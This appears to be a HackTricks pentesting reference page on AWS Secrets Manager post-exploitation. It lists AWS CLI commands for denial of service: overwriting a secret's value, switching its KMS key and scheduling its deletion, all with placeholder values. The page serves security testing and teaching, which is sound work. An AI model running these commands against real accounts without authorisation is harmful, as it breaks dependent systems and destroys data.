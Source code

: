# AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

{{#include ../../../banners/hacktricks-training.md}}

